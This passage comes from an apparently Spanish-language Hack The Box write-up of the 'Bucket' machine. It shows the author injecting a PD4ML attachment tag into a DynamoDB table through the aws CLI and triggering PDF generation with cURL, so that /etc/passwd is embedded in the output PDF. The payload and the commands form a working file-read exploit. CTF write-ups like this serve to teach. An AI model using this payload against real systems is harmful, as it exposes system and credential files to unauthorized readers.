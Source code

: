 Ahora nos quedaria realizar la petición `cURL` con el metodo `POST` y el atributo `action`:

```bash
roy@bucket:/var/www/bucket-app$ curl -X POST --data "action=get_alerts" http://localhost:8000/index.php
```

Obtenemos el archivo `result.pdf`:

```bash
roy@bucket:/var/www/bucket-app$ cd files
roy@bucket:/var/www/bucket-app/files$ ls -la
total 12
drwxr-x---+ 2 root root 4096 Jan  5 02:23 .
drwxr-x---+ 4 root root 4096 Sep 23 10:56 ..
-rw-r--r--  1 root root 1633 Jan  5 02:23 result.pdf
roy@bucket:/var/www/bucket-app/files$ cat result.pdf
%PDF-1.4
%
1 0 obj
% [24]
<<
/Filter /FlateDecode
...
```

Pero entre toda la data no vemos nada relacionado con el archivo `/etc/passwd`. Acá estuve un buen tiempo atascado, así que recurrí de nuevo a [@TazWake](https://www.hackthebox.eu/profile/49335) que me dio una mano con una página donde indica que `PD4ML` soporta archivos adjuntos mediante el tag: `<pd4ml:attachment>`, lo que nos permite adjuntar un archivo para ver o listar el contenido del mismo :P

* PDF Attachments - [pd4ml.com](https://pd4ml.com/cookbook/pdf-attachments.htm).

Lo curioso fue que después de un rato de jugar con esto encontré un tweet donde se hablaba de este descubrimiento y como explotarlo:

* Playing with PD4ML API - [twitter.com/akhilreni_hs](https://twitter.com/akhilreni_hs/status/1219633535897817088).

```json
<pd4ml:attachment description="attached.txt" icon="PushPin">file:///etc/passwd</pd4ml:attachment>
```

Listo, pues intentemos agregar esta línea a la fila `data` de nuestra tabla y ejecutamos la petición con `cURL` a ver que sucede:

```bash
roy@bucket:/var/www/bucket-app$ aws --endpoint-url=http://localhost:4566 dynamodb put-item --table-name alerts \
--item '{"title": {"S": "Ransomware"}, "data": {"S": "<pd4ml:attachment description=\"attached.txt\" icon=\"PushPin\">file:///etc/passwd</pd4ml:attachment>"}}'
```

Escapamos las `""` (comillas) y le damos:

```bash
roy@bucket:/var/www/bucket-app/files$ curl -X POST --data "action=get_alerts" http://localhost:8000/index.php
roy@bucket:/var/www/bucket-app/files$ cat result.pdf
%PDF-1.4
%
1 0 obj
% [24] 
<<
/Filter /FlateDecode
...
...
/Params 5 0 R
>>
stream
```